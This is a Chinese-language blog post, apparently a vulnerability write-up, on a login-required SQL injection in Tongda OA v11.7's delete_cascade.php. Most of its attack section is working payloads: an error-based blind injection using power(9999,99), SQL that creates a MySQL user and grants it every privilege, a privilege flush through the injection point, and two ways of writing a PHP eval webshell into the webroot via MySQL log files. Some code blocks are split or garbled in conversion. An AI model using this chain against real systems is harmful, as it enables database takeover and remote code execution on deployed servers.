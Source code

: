 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rtX9mJkPHd9njvM_PIrK_Q)

> Author: AdminTony

  

1.测试环境
======

测试版本：通达OA v11.7版本

限制条件：需要账号登录

2.代码审计发现注入
==========

注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下：

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlRexTKWxTiaeLG9olbyoG6214RaNbvSibzDs3cYW5N4RBnyUibXLThOJSw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

`inc/common.inc.php`代码

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXl8Qqx9OiaExxpA2cI6qiaGE3OJ90h8rNJB1icKib2RYibb24CXSMzz5RlRHw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

因为是无回显机制，是盲注，所以尝试`(select 1 from (select sleep(5))a)`，结果没那么简单：

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlYhUiciaDddtnUzB9raysFuwZQKlDPJhXLb3u6RWDVlCUqric0pdmiaKTibg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlha2Y8u2rTtXibaVlmtJVSMQ90yYVlNqAMatJEYTLkPibed6SMeNWQkZg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，所以还是有机会的。

传入错误的SQL语句时，页面出错：

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlXEiaicb3o2hEeRVdWRadEcef2ZrGibic5zhqe1GV4DjyoUTW0HzkzFEajA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

```
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlyeFDXAEibeicBvHjfUXuAaqIHdmx2jicDrSTuZCLRd9GpsICbR7DbqdfA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlYoBiaGApp72rBOBxej4ESXePV89w5gIRsOxMrc9wJug4osmcrMbg5yw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

3.构造利用链
=======

*   添加用户：
    

```
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
```

```
![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlqH7X8bvq6uMPjj4SfeiaBS0aCwwQqNPoojRYru8ejmfetI4iaRmqMTlg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")  

```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXliaGial0HPbcBIGExV5CUicrZ0CiaebbHV5Isn7ybMlibibp5szNO8Ks0JfJQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));
```

```
![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXl1lZZM0xo4A1K7G9MK9rzs3q9XGPZKwbZNQMSah7hrCBn3S4oEpo9jA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")  

```

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXl1UXZqeqPNO9yvERBobXicSMvTGiaPI0HddZA5G7T0jyvSWrYTtHzDJMg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

提示这个，或者让改密码死活改不了。再执行一下

```
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@1
```

```
23' WITH GRANT OPTION  

```

即可。

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlNvDBlamZwspafUgPLzWjqWTSjRyd4BhtAOH71P9f04af9B5PIaSoVQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")

*   写shell：
    

```
`# 查路径：``select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot\``# 方法1：``set global slow_query_log=on;``set global slow_query_log_file='C:/td0a117/webroot/tony.php';``select '<?php eval($_POST[x]);?>' or sleep(11);``# 方法2：``set global general_log = on;``set global general_log_file = 'C:/td0a117/webroot/tony2.php';``select '<?php eval($_POST[x]);?>';``show variables like '%general%';`
```

```
  

```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZLHmSUUBblibBibDJlnHGtbXlPgxy3pXbnabGd29Knlf9KRZS0vp97htvbdSnG4gMKu1OcqM8aZgKcw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "image.png")